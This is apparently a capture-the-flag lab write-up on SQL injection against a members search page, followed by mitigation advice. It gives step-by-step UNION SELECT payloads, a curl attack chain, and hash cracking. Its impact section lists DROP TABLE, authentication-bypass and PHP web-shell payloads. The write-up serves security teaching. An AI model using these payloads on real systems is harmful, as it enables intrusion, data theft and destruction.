






# Breach #2: SQL Injection on Members Search

## Vulnerability Type
**SQL Injection (SQLi)**
- OWASP: A03:2021 - Injection
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command

## How We Found It

### Discovery: Members Search Page
URL: `http://192.168.64.2/index.php?page=member`

The page allows searching for members by their user ID through a simple input form.

### Step 1: Normal Query Test
First, we tested the legitimate functionality by searching for user ID `1`:

**Input**:
```sql
1
```

**Output**:
```
ID: 1
First name: one
Surname : me
```

The application returns two fields: `first_name` and `surname`.

### Step 2: SQL Injection Vulnerability Test
We tested if the input is vulnerable to SQL Injection using a basic "always true" condition:

**Input**:
```sql
1 OR 1=1
```

**Expected SQL Query on Server**:
```sql
SELECT first_name, surname FROM users WHERE id = 1 OR 1=1
```

**Result**: All user records were returned!



**Output**:
```
ID: 1 OR 1=1
First name: one
Surname : me

ID: 1 OR 1=1
First name: two
Surname : me

ID: 1 OR 1=1
First name: three
Surname : me

ID: 1 OR 1=1
First name: Flag
Surname : GetThe
```

✅ **SQL Injection confirmed!** The last user "Flag GetThe" looks suspicious.

### Step 3: Determine Number of Columns (UNION SELECT)
To extract more data, we need to know how many columns the original query returns.

**Input**:
```sql
1 UNION SELECT null, null
```

**Result**: No error! This confirms the query returns **2 columns**.



If there were 3 columns, this would have returned an error: `The used SELECT statements have a different number of columns`

### Step 4: Retrieve Database Name
**Input**:
```sql
1 UNION SELECT database(), null
```

**Result**: Database name is `Member_Sql_Injection`



### Step 5: Enumerate Database Structure
To find all tables and columns, we query the `information_schema`:

**Input**:
```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

We use `-1` to ensure the first SELECT returns no results (negative IDs don't exist), so we only see our injected query results.

**Discovered `users` table columns**:
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire` (French for "Comment")
- `countersign` (Password)

### Step 6: Extract Hint and Password Hash
**Input**:
```sql
1 UNION SELECT Commentaire, countersign FROM users
```



**Result for Flag user**:
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

**Instructions found**:
1. Decrypt the password (MD5 hash: 32 hexadecimal characters)
2. Convert to lowercase
3. Apply SHA256 hashing

### Step 7: Crack MD5 Hash
Using [CrackStation.net](https://crackstation.net/):



**Hash**: `5ff9d0165b4f92b14994e5c685cdce28`
**Plaintext**: `FortyTwo`

### Step 8: Generate Flag
Following the instructions from the Commentaire:

1. **Decrypt**: `5ff9d0165b4f92b14994e5c685cdce28` → `FortyTwo`
2. **Lowercase**: `FortyTwo` → `fortytwo`
3. **SHA256 hash**:

```bash
echo -n "fortytwo" | shasum -a 256
```



**Result**: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

✅ **Flag obtained!**

## How to Exploit

### Complete Attack Chain

```bash
# 1. Test for SQL injection vulnerability
curl "http://192.168.64.2/index.php?page=member&id=1+OR+1%3D1&Submit=Submit"

# 2. Determine column count
curl "http://192.168.64.2/index.php?page=member&id=1+UNION+SELECT+null%2C+null&Submit=Submit"

# 3. Extract database name
curl "http://192.168.64.2/index.php?page=member&id=1+UNION+SELECT+database()%2C+null&Submit=Submit"

# 4. Enumerate table structure
curl "http://192.168.64.2/index.php?page=member&id=-1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit"

# 5. Extract hint and password hash (combined)
curl "http://192.168.64.2/index.php?page=member&id=1+UNION+SELECT+Commentaire%2C+countersign+FROM+users&Submit=Submit"

# 6. Crack MD5 hash
# Visit: https://crackstation.net/
# Input: 5ff9d0165b4f92b14994e5c685cdce28
# Output: FortyTwo

# 7. Generate SHA256 flag
echo -n "fortytwo" | shasum -a 256
# Output: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Alternative: Extract All Data with CONCAT

To retrieve all user information in one query:

```sql
-1 UNION SELECT CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign), 1 FROM users
```

This concatenates all columns into a single output field.

## Security Issues

### 1. No Input Validation
**Problem**: User input is directly inserted into SQL queries without sanitization.

**Vulnerable Code** (hypothetical):
```php
$id = $_GET['id'];
$query = "SELECT first_name, surname FROM users WHERE id = $id";
$result = mysqli_query($conn, $query);
```

### 2. Raw SQL Query Construction
**Problem**: String concatenation is used to build SQL queries, allowing injection.

### 3. Detailed Error Messages
**Problem**: Database errors are displayed to users, revealing:
- Database type (MariaDB)
- Query structure
- Table and column names

Example error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version...
```

### 4. Weak Password Hashing
**Problem**:
- MD5 is cryptographically broken
- No salt used
- Easily cracked via rainbow tables

### 5. Information Schema Accessible
**Problem**: The application allows querying `information_schema`, exposing:
- All database names
- All table names
- All column names

## Mitigation

### 1. Use Prepared Statements (Parameterized Queries)

**✅ Secure Code** (PHP with PDO):
```php
$id = $_GET['id'];
$stmt = $pdo->prepare("SELECT first_name, surname FROM users WHERE id = ?");
$stmt->execute([$id]);
$result = $stmt->fetchAll();
```

**✅ Secure Code** (PHP with MySQLi):
```php
$id = $_GET['id'];
$stmt = $conn->prepare("SELECT first_name, surname FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();
```

**Why it works**:
- User input is treated as **data**, not SQL code
- The SQL structure is fixed and cannot be modified
- `1 OR 1=1` would be treated as the literal string, not SQL logic

### 2. Input Validation

**Whitelist Validation**:
```php
// For numeric IDs
$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
if ($id === false || $id < 1) {
    die("Invalid ID");
}
```

**Type Casting**:
```php
$id = (int)$_GET['id'];
if ($id <= 0) {
    die("Invalid ID");
}
```

### 3. Disable Error Display in Production

**php.ini**:
```ini
display_errors = Off
log_errors = On
error_log = /var/log/php_errors.log
```

**Application Level**:
```php
try {
    $result = $stmt->execute();
} catch (PDOException $e) {
    error_log($e->getMessage());
    die("An error occurred. Please try again later.");
}
```

### 4. Use Strong Password Hashing

**Use bcrypt or Argon2**:
```php
// Hashing
$hash = password_hash($password, PASSWORD_ARGON2ID);

// Verification
if (password_verify($password, $hash)) {
    // Password correct
}
```

### 5. Principle of Least Privilege

**Database User Permissions**:
```sql
-- Create limited user
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';

-- Grant only necessary permissions
GRANT SELECT, INSERT, UPDATE ON myapp.users TO 'webapp'@'localhost';

-- Deny access to information_schema (default deny)
REVOKE ALL ON information_schema.* FROM 'webapp'@'localhost';
```

### 6. Web Application Firewall (WAF)

**ModSecurity Rules** (Apache):
```apache
SecRule ARGS "@detectSQLi" \
    "id:1,phase:2,deny,status:403,msg:'SQL Injection Detected'"
```

### 7. Input Sanitization (Defense in Depth)

```php
// Additional layer (NOT a replacement for prepared statements)
$id = mysqli_real_escape_string($conn, $_GET['id']);
```

**Note**: Escaping alone is **NOT sufficient** - always use prepared statements!

## Impact Assessment

### CVSS 3.1 Score: 9.8 (Critical)

**Attack Vector**: Network (AV:N)
**Attack Complexity**: Low (AC:L)
**Privileges Required**: None (PR:N)
**User Interaction**: None (UI:N)
**Scope**: Changed (S:C)
**Confidentiality**: High (C:H) - All database data exposed
**Integrity**: High (I:H) - Data modification possible
**Availability**: High (A:H) - Database can be dropped

### Potential Damage

**Data Breach**:
- Exposure of all user credentials
- Personal information leakage (names, locations)
- Password hashes can be cracked

**Data Manipulation**:
```sql
1; UPDATE users SET countersign = 'hacked' WHERE user_id = 1; --
```

**Data Destruction**:
```sql
1; DROP TABLE users; --
```

**Authentication Bypass**:
```sql
admin' OR '1'='1' --
```

**Remote Code Execution** (if file privileges exist):
```sql
1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --
```

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [UNION SELECT Tutorial](https://www.sqlinjection.net/union/)
- [MySQL Information Schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

## Tools Used

- **Browser**: Manual testing
- **curl**: Command-line testing
- **CrackStation**: MD5 hash cracking
- **shasum**: SHA256 hash generation

---
**Flag**: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
